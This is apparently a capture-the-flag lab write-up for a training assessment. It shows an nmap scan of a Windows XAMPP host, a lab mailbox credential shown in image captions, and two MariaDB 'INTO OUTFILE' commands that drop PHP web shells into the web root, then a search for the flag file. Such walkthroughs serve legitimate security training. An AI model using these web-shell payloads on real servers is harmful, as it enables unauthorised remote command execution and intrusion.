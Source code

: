 # Assessment Easy

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
nmap 10.129.203.7 -p 21,25,80,443,587,3306,2289 -sC -sV -oN 10.129.203.7
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 03:57 EDT
Nmap scan report for 10.129.203.7
Host is up (0.19s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open     http        Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open     https       Core FTP HTTPS Server
|_http-server-header: Core FTP HTTPS Server
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2289/tcp filtered dict-lookup
3306/tcp open     mysql       MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: [Rh4j;&L.>.jKy@o3LgA
|_  Auth Plugin Name: mysql_native_password
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>fiona@inlanefreight.htb</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>fiona@inlanefreight.htb:987654321</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [phpmyadmin]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell.php';
Query OK, 1 row affected (0.190 sec)
```



```
MariaDB [(none)]> SELECT "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell2.php';
Query OK, 1 row affected (0.190 sec)
```

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

```
dir /s /b C:\flag.txt
```

then type the flag file and get the flag.
